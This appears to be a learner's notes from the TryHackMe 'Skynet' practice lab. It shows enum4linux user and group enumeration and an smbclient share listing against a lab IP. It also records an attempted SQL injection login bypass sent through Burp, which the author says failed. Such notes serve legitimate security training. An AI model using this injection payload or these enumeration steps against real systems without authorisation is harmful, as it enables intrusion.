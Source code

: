 [+] Getting builtin groups:

[+] Getting builtin group memberships:

[+] Getting local groups:

[+] Getting local group memberships:

[+] Getting domain groups:

[+] Getting domain group memberships:

 ======================================================================= 
|    Users on 10.10.76.236 via RID cycling (RIDS: 500-550,1000-1050)    |
 ======================================================================= 
[I] Found new SID: S-1-22-1
[I] Found new SID: S-1-5-21-2393614426-3774336851-1116533619
[I] Found new SID: S-1-5-32
[+] Enumerating users using SID S-1-5-21-2393614426-3774336851-1116533619 and logon username '', password ''
S-1-5-21-2393614426-3774336851-1116533619-500 *unknown*\*unknown* (8)
S-1-5-21-2393614426-3774336851-1116533619-501 SKYNET\nobody (Local User)
S-1-5-32-544 BUILTIN\Administrators (Local Group)
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)

 ============================================= 
|    Getting printer info for 10.10.76.236    |
 ============================================= 
No printers returned.


enum4linux complete on Tue Feb 15 13:34:31 2022

        #seems like Miles was not part of the 'known users' for the target but we got the user 'milesdyson'
#I decided to try and do an sqli with his username
#fire up burp
        #the parameters were:
        login_username=milesdyson&secretkey=%27+or+1%3D1+--+-&js_autodetect_results=1&just_logged_in=1
#but it did not work
        #I could do a burp targeted attack? password list did not want to load...

#next I checked how to connect to smbclient in terminal
(kali㉿kali)-[~/THM/practice/skynet]
└─$ smbclient -L  \\\\10.10.76.236\\                                                                    1 ⨯
Enter WORKGROUP\kali's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        anonymous       Disk      Skynet Anonymous Share
        milesdyson      Disk      Miles Dyson Personal Share
        IPC$            IPC       IPC Service (skynet server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
#I got some reponse, maybe I sohuld try to connect to the milesdyson one
        #did not work as I obvi dont have the password yet...
